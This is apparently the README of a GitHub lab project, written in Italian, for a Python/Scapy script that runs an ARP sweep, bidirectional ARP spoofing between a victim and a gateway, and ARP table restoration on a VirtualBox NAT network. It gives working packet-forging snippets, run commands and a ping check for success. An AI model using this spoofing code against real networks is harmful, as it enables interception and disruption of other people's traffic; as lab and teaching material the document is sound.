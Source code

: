 # 🧪 Script `arptotale.py`
Questo script Python esegue un laboratorio ARP completo in ambiente virtuale NAT. Include sweep iniziale, spoofing ARP bidirezionale e ripristino automatico delle tabelle ARP alla pressione di `Ctrl+C`.

🧠 Dati finali per lo spoofing
Nodo	     IP	         MAC	            Interfaccia
Attaccante	10.0.2.16	00:11:22:33:44:55	     eth0
Vittima	    10.0.2.15	08:00:27:55:44:07	    enp0s3
Gateway	    10.0.2.2	52:54:00:12:35:02	    enp0s3

🔧 Modifica arp_spoof_lab.py
Nel tuo script, imposta:

victim_ip = "10.0.2.15"
victim_mac = "08:00:27:55:44:07"
router_ip = "10.0.2.2"
router_mac = "52:54:00:12:35:02"
attacker_mac = "00:11:22:33:44:55"

#Assicurati che l’interfaccia usata sia eth0.

🔥 Esecuzione dell’attacco
Sulla VM attaccante:


cd ~/arp_lab/scripts/
sudo python3 arp_spoof_lab.py


🧪 Verifica sulla VM vittima

ping 8.8.8.8

#Se il ping fallisce durante lo spoofing, l’attacco è riuscito.

🛡️ Ripristino
Sulla VM attaccante:

sudo sysctl -w net.ipv4.ip_forward=0

Sulla VM vittima:

sudo ip neigh flush all


## ⚙️ Funzionalità principali

### 1. ARP Sweep

#Effettua una scansione della rete (`10.0.2.0/24`) per identificare host attivi e i relativi MAC address.

arp = ARP(pdst=network_range)
ether = Ether(dst="ff:ff:ff:ff:ff:ff")
packet = ether / arp
result = srp(packet, timeout=2, iface=interface, verbose=False)[0]
------------------

### 2. ARP Spoofing
#Invia pacchetti ARP falsificati per impersonare il router verso la vittima e viceversa.

#La vittima crede che l'attaccante sia il router

#Il router NAT crede che l'attaccante sia la vittima
--------------------
pkt1 = ARP(op=2, pdst=victim_ip, hwdst=victim_mac, psrc=router_ip, hwsrc=attacker_mac)
pkt2 = ARP(op=2, pdst=router_ip, hwdst=router_mac, psrc=victim_ip, hwsrc=attacker_mac)
send(pkt1)
send(pkt2)
---------

### 3. Ripristino ARP
#Alla pressione di Ctrl+C, lo script invia pacchetti corretti per ripristinare le tabelle ARP originali.

pkt1 = ARP(op=2, pdst=router_ip, hwdst=router_mac, psrc=victim_ip, hwsrc=victim_mac)
pkt2 = ARP(op=2, pdst=victim_ip, hwdst=victim_mac, psrc=router_ip, hwsrc=router_mac)
send(pkt1, count=3)
send(pkt2, count=3)

---
📁 Log automatico
Tutte le operazioni vengono registrate nel file:


🛡️ Sicurezza
Funziona solo su rete NAT virtuale (VirtualBox)

Nessun impatto su router reale o rete fisica

Ripristino automatico garantito


▶️ Esecuzione

Da terminale sulla VM attaccante:

cd ~/arp_lab/scripts/
sudo python3 arptotale.py

✍️ Autore
Script scritto per ambienti CLI e laboratori di simulazione ARP. Ottimizzato per Debian minimal, VirtualBox NAT Network e logging automatico.


---
#   a r p t o t a l e 
 
 
